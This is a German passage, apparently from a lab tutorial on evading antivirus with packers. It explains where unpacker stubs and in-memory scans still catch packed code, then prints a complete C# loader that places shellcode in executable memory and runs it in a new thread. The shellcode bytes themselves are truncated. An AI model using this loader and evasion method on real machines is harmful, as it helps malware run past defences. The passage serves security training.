 - Obwohl Ihr ursprünglicher Code möglicherweise in etwas Unkenntliches transformiert wird, enthält die gepackte ausführbare Datei einen Stub mit dem Code des Unpackers. Wenn der Unpacker eine bekannte Signatur hat, könnten AV-Lösungen allein aufgrund des Unpacker-Stubs jede gepackte ausführbare Datei kennzeichnen.
- Irgendwann wird Ihre Anwendung den ursprünglichen Code in den Speicher entpacken, damit er ausgeführt werden kann. Wenn die AV-Lösung, die Sie umgehen möchten, in der Lage ist, Scans im Speicher durchzuführen, könnten Sie möglicherweise immer noch erkannt werden, nachdem Ihr Code entpackt wurde.

### Verpacken unseres Shellcodes

Lassen Sie uns mit einem grundlegenden C#-Shellcode beginnen. Sie finden diesen Code auch auf Ihrem Windows-Rechner unter C:\Tools\CS Files\UnEncStagelessPayload.cs:
```cs
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    byte[] shellcode = new byte[] {0xfc,0x48,0x83,...,0xda,0xff,0xd5 };


    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```
